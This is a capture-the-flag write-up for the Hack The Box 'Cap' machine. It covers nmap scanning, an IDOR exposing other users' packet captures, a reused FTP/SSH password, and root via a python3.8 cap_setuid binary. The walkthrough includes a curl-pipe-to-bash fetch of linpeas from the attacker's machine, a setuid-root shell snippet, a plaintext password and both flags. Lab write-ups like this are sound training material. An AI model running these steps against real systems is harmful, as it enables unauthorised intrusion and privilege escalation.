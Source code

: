 ```yaml
---
tags:
  - type/literature
date & time: 17/08/2024 08:46
what: Write-up
which: Cap
where: HTB
---
```

We start by using nmap to scan open TCP ports

```bash
nmap -sC -sV -Pn -oA scan_result <target_ip>
```

`-sC`: This option runs a set of default scripts against the target. These scripts are part of the Nmap Scripting Engine (NSE) and are used to gather additional information about the target, such as detailed service versions, security vulnerabilities, and more.

`-sV`: This option enables version detection. Nmap will attempt to determine the version of the services running on open ports by sending probes and analyzing responses. This is useful for identifying the specific version of software (like a web server or database) running on the target.

`-Pn`: This option tells Nmap to skip the host discovery phase, where it would normally send pings to see if a host is up before scanning it. With `-Pn`, Nmap assumes the host is up and proceeds to scan it. This is useful when dealing with hosts that might block or not respond to ping requests.

`-oA scan_result`: This option saves the scan results in three different formats (normal, XML, and grepable) to files with the base name `scan_result`. The `-oA` option is shorthand for outputting in all formats (`-oN`, `-oX`, and `-oG`).

![[Pasted image 20240817083441.png]]

it shows that there are ==3== open TCP ports (21, 22 and 80) and those are FTP, SSH and HTTP ports.

The http service is ran by gumicorn, a python web server.

Then we try accessing the http service from web browser.

After accessing the /capture endpoint, we are served with /==data==/x where x is our capture id and it is sequential (incremented each time we access /capture).

This means that there are other results from past accesses of /capture, so we try to access them by decrementing the x. And ==yes==, we can get access to other user's scan result.

This vulnerability is called [[Insecure Direct Object References (IDOR)]] where you can access resources (unintended access) from the server with just referencing them in the URL.

After downloading and inspecting the ==0==.pcap file we follow the TCP streams, and find out about this particular stream:

![[Pasted image 20240817085510.png]]
We got nathan's ==FTP== password!

```
Buck3tH4TF0RM3!
```

We know that other than FTP and HTTP there's also SSH service on port 22, Let's try the credential we just got here.

![[Pasted image 20240817090947.png]]

We successfully logged-in via ==SSH== to Cap machine. To get the flag, cat the user.txt

```bash
cat user.txt
```

==`633a9f700ef95474d7f0de53957fcb32`==

Now to gain privilege escalation, we will use the linpeas.sh script. We run an HTTP server from our machine serving the linpeas.sh. We then curl the script from cap machine to our machine and pipe it to bash/shell:

on our machine:
```bash
mkdir www
cd www
cp /path/to/lineas.sh .
python3 -m http.server <port_number> # leave empty to use default port (8000)
```

![[Pasted image 20240817092756.png]]

on cap machine:
```bash
curl our_machine_ip:port/linpeas.sh | bash
```

Make sure that we're using IP provided by HTB's VPN. Wait for the script to finish executing.

Now we take a look at "Files with capabilities" section:

![[Pasted image 20240817093632.png]]

It appears that the binary file ==`/usr/bin/python3.8`== has a `cap_setuid` capability set, this allows the binary file to make arbitrary `setuid` or `setgid` system calls. This can be used to change the user ID or group ID of the process to 0 (root), effectively escalating our privileges. Now let's exploit this by opening python3.8

```bash
python3.8
```

and running this python script:

```python
import os
os.setuid(0) # Set process uid to root
os.system('/bin/bash') # Run bash shell as root
```

Now that we have a root shell, we can get the flag located in `/root`:

```bash
cat /root/root.txt
```

==5eeb384029737357182ea82bd258b47b==
